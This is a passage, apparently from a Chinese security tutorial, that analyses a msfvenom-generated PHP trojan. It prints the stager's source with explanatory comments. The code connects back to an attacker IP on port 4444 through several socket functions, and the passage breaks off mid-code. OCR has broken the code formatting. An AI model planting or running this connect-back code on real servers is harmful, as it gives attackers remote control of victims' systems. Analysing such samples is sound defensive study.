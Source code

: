 ### 4.2 分析 PHP 木马代码

对于使用 msfvenom 生成的 PHP 木马，其源代码如下所示：

```
/*<?php /**/ error_reporting(0); 

// 攻击者的目标 ip 地址
$ip = '192.168.122.101';

// 攻击者的端口为 4444
$port = 4444;

if (($f = 'stream_socket_client') && is_callable($f)) { 
```

// 连接 ip 地址和端口
$s = $f("tcp://{$ip}:{$port}");
$s_type = 'stream'; 
```
} elseif (($f = 'fsockopen') && is_callable($f)) {

```
// 由 ip 地址和端口两个参数连接
$s = $f($ip, $port); 

// 类型 type 为 stream
$s_type = 'stream';
```
} elseif (($f = 'socket_create') && is_callable($f)) {

```
$s = $f(AF_INET, SOCK_STREAM, SOL_TCP);

// 由协议，ip 地址，端口三者确立连接
$res = @socket_connect($s, $ip, $port);

// 判断是否为空，为空则终止脚本函数
if (!$res) { 
die(); 
} 

// 连接的数据类型
$s_type = 'socket'; 
```
} else { 
```
die('no socket funcs'); 
```
} 

// 如果没有 socket 连接，则报错
if (!$s) {
```
die('no socket'); 
```
} 

switch ($s_type) { 
```
case 'stream': $len = fread($s, 4); break;
case 'socket': $len = socket_read($s, 4); break;
```
} 

// 根据长度判断是否为空，为空则终止脚本函数
if (!$len) {
```
die(); 